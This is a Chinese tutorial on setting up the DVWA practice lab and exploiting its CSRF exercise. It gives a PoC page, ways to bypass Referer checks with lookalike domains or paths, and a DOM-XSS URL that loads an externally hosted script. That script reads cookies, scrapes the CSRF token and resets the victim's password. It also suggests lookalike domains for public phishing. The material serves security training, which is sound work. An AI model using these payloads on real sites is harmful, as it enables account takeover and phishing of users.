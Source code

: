 一个综合 Web 靶场.

## 1. 安装

安装依赖

```
apt install -y apache2 mariadb-server mariadb-client php php-mysqli php-gd libapache2-mod-php
```

下载

```
git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
```

修改运行权限

```
chown -R www-data:www-data /var/www/html/
```

修改配置文件

```
cp /var/www/html/dvwa/config/config.inc.php.dist \
/var/www/html/dvwa/config/config.inc.php \
&& vim /var/www/html/dvwa/config/config.inc.php
```

配置数据库管理系统用户名和密码

```php
20	$_DVWA[ 'db_user' ]     = getenv('DB_USER') ?: 'root';
21	$_DVWA[ 'db_password' ] = getenv('DB_PASSWORD') ?: '123456';
```

添加谷歌验证码 reCAPTCHA 

```php
27	$_DVWA[ 'recaptcha_public_key' ]  = '6LdK7xITAAzzAAJQTfL7fu6I-0aPl8KHHieAT_yJg';
28	$_DVWA[ 'recaptcha_private_key' ] = '6LdK7xITAzzAAL_uw9YXVUOPoIHPZLfw2K1n5NVQ';
```

修改默认安全级别

```php
33	$_DVWA[ 'default_security_level' ] = 'low';
```

查找 php 配置文件

```
find /etc/php/ -path "*/apache2/php.ini"
```

修改 php 配置文件

```
vim /etc/php/8.2/apache2/php.ini
```

```ini
508	display_errors = On
517	display_startup_errors = On
870	allow_url_include = On
```

重启 web 服务

```
systemctl restart apache2.service
```

## 2. 初始化

访问链接初始化

> http://debian/dvwa/setup.php

## 3. 使用

访问

> http://debian/dvwa/login.php

账户

```
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password
```

修改安全级别

![修改安全级别](./../../../../images/DVWA/%E4%BD%BF%E7%94%A8/%E4%BF%AE%E6%94%B9%E5%AE%89%E5%85%A8%E7%BA%A7%E5%88%AB.png)

### 3.1 csrf

> http://purple.local/dvwa/vulnerabilities/csrf/

> 1. 攻击者首先会在自己的个人账户上获取敏感操作的请求包，如：修改密码，修改邮箱，修改手机号，账号删除，转账等操作
> 2. 之后会利用这些请求包构造一个网页形式的 poc，将这个 poc 发送到公网
> 3. 最后诱使目标账号在登录状态下点击 poc 链接，即可伪造用户请求进行敏感操作

### 3.1.1 low

```
目标账户：admin:password
个人账户：gordonb:abc123
```

登录个人账户拦截请求包，并提交修改密码请求

![登录个人账户拦截请求包，并提交修改密码请求](./../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E7%99%BB%E5%BD%95%E4%B8%AA%E4%BA%BA%E8%B4%A6%E6%88%B7%E6%8B%A6%E6%88%AA%E8%AF%B7%E6%B1%82%E5%8C%85%EF%BC%8C%E5%B9%B6%E6%8F%90%E4%BA%A4%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%83.png)

构造 poc

![构造 poc](./../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E6%9E%84%E9%80%A0%20poc.png)

将 poc 放在网站上

```shell
┌──(root㉿purple)-[~]
└─# systemctl start apache2 && vim /var/www/html/test.html
```

诱使目标账户在登录状态下访问 poc 链接即可修改目标账户密码修改

> http://kali.local/test.html

> 布置在公网上时可以购买短链接或相似域名伪造官网

### 3.1.2 medium

> 1. 这里使用了 Referer 校验用户请求是否来自官网。
> 2. 假设官网为 `purple.local` ，当用户在这个网站进行操作时校验了服务端当前所在网站为官网，因此是正常请求，不会拦截。
> 3. 但是当目标被诱导使用攻击者伪造的网站 `kali.local` 操作时，服务端会校验当前的网站是否是 `purple.local` ，因此会对 `kali.local` 的请求进行拦截。

绕过方式有两种

1. 域名绕过：伪造网站可申请一个相似域名如 `test.purple.local` 或 `purple.local.cn` 等即可绕过

2. 网址绕过：在伪造网站构造一个含有校验对象的路径，如 `http://kali.local/purple.local.html` 即可绕过

指定 Referer 策略： `no-referrer-when-downgrade` 或 `unsafe-url` 

>  `no-referrer-when-downgrade` 只有当从 HTTPS 降级为 HTTP 时不会发送完整 URL
>
>  `unsafe-url` 永远发送完整 URL
>
> 完整的 URL ：`http://kali.local/purple.local.html` 
>
> 不完整的 URL ：`http://kali.local` 

在一个含有校验对象的路径中构造 POC

```shell
┌──(root㉿purple)-[~]
└─# vim /var/www/html/purple.local.html
```

```html
<!DOCTYPE html>
<html>
<head>
    <meta name="referrer" content="unsafe-url">
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <meta name="referrer" content="unsafe-url">
</head>
<body>
    <a href="http://purple.local/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change" referrer="unsafe-url">
        csrf
    </a>
</body>
</html>
```

### 3.1.3 high

需要利用 xss(dom) 漏洞获取 token 

> 可以利用 # 注释，# 之后的代码不会发送到服务器，但是可以在本地加载

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(%22hello%22)%3C/script%3E
```

成功注入

![成功注入](./../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/high/%E6%88%90%E5%8A%9F%E6%B3%A8%E5%85%A5.png)

构造一个 js 文件，通过 xss 漏洞执行这个文件，获取 token 来进行 csrf 攻击

```shell
┌──(root㉿kali)-[~]
└─# vim /var/www/html/csrf.js
```

```js
//弹出cookie
alert(document.cookie);
//定义AJAX加载的页面
	var theUrl = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/';
//匹配浏览器
if (window.XMLHttpRequest){
// IE7+, Firefox, Chrome, Opera, Safari
		xmlhttp=new XMLHttpRequest(); 
	}else{
// IE6, IE5
		xmlhttp=new ActiveXObject("Microsoft.XMLHTTP"); 
	}
	var count = 0;
//页面加载完成后执行函数
	xmlhttp.onreadystatechange=function(){
//判断请求已完成并且响应就绪状态码为200时执行代码
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
//页面内容存储到text中进行匹配token
		var text = xmlhttp.responseText;
		var regex = /user_token\' value\=\'(.*?)\' \/\>/;
		var match = text.match(regex);
		console.log(match);
//弹出token
		alert(match[1]);
		var token = match[1];
//定义payload url并绑定token为我们从页面匹配到的token并且定义新的密码，新密码是admin
var new_url = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/?user_token='+token+'&password_new=123456&password_conf=123456&Change=Change'
//GET方式提交一次new_url
		if(count==0){
			count++;
			xmlhttp.open("GET",new_url,false);
			xmlhttp.send();
		}
}
};
//GET方式提交theUrl
	xmlhttp.open("GET",theUrl,false);
	xmlhttp.send();

```

通过 xss 漏洞加载 js 文件进行 csrf 攻击来修改密码

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#<script src="http://kali.local/csrf.js"></script>
```

> 可将这个 url 放到伪造页面中

---

参考链接

- [DVWA](https://github.com/digininja/DVWA)
